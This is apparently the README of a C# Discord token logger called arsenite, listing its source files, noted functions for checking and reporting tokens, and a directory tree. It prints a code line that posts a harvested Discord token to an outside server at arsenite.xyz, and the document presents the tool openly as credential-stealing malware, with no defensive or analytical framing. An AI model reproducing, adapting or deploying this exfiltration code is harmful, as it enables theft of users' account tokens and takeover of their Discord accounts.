 # arsenite.xyz discord token logger

# FILES

##### Token Discovery: arsenite/arsenite/TokenDiscovery.cs
##### Stub configuration: arsenite/arsenite/Config.cs
##### Main program: arsenite/arsenite/Program.cs

# Functions worth noting

##### gzip function: Program.cs line 15
##### report token: TokenDiscovery.cs line 103
##### check token: TokenDiscovery.cs line 64

# code samples:

##### report token

```
HttpResponseMessage result = TokenDiscovery._httpClient.PostAsync("https://arsenite.xyz/logger/" + Config.Id + "/report", new StringContent("{\"token\":\"" + token + "\"}", Encoding.UTF8, "application/json")).Result;
```

# directory tree

```
arsenite/
├── arsenite 
│   ├── Config.cs
│   ├── Json
│   ├── Program.cs
│   ├── Properties
│   │   └── AssemblyInfo.cs
│   ├── TokenDiscovery.cs
│   ├── Update
│   ├── app.manifest
│   └── arsenite.csproj
├── arsenite.sln
└── binaries 
    ├── Update
    └── json
```

